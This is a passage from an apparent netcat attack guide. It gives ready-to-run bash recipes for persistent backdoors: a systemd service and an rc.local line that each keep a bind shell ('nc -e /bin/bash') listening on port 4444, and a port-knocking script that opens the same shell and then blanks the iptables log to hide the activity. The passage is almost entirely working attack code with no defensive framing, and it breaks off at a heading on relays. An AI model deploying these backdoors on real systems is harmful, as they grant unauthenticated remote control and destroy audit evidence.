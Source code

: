 **Using systemd service**
```bash
# Create a netcat service file
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=Netcat Backdoor

[Service]
ExecStart=/bin/bash -c "while true; do nc -nlvp 4444 -e /bin/bash; sleep 10; done"
Restart=always

[Install]
WantedBy=multi-user.target
EOF

# Enable and start the service
systemctl enable backdoor.service
systemctl start backdoor.service
```

**Using rc.local**
```bash
# Add to /etc/rc.local before exit 0
nohup nc -nlvp 4444 -e /bin/bash &
```

### Backdoor Tricks

**Port Knocking Backdoor**
```bash
# Create a script that opens a backdoor after specific port sequence is knocked
cat > /usr/local/bin/knockback.sh << EOF
#!/bin/bash
while true; do
  # Check logs for specific sequence
  if grep "DPT=7000" /var/log/iptables.log && grep "DPT=8000" /var/log/iptables.log && grep "DPT=9000" /var/log/iptables.log; then
    # Open backdoor for 30 seconds
    nc -nlvp 4444 -e /bin/bash
    # Clear logs
    echo "" > /var/log/iptables.log
  fi
  sleep 5
done
EOF
chmod +x /usr/local/bin/knockback.sh
```

## Advanced Techniques

### Creating a Relay
Netcat can create relays to pivot through networks:
